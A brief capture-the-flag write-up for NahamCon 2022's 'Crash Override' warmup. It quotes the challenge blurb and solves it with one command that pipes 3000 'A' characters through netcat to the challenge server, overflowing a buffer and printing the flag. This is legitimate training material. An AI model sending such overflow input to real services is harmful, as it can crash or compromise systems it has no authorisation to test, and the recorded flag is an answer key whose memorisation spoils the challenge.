 # Crash Override

uthor: @M_alpha#3534  
  
Remember, hacking is more than just a crime. It's a survival trait.  
  
PS (not challenge related), _thank you_ so much to **[HackTheBox](https://hackthebox.eu/)** for supporting NahamCon 2022!


## Solucion

```bash
┌──(kali㉿kali)-[~/…/ctfs2022/nahamconctf/warmup/crashoverride]
└─$ python -c 'print("A" * 3000)' | nc challenge.nahamcon.com 30515   
HACK THE PLANET!!!!!!
flag{de8b6655b538a0bf567b79a14f2669f6}
```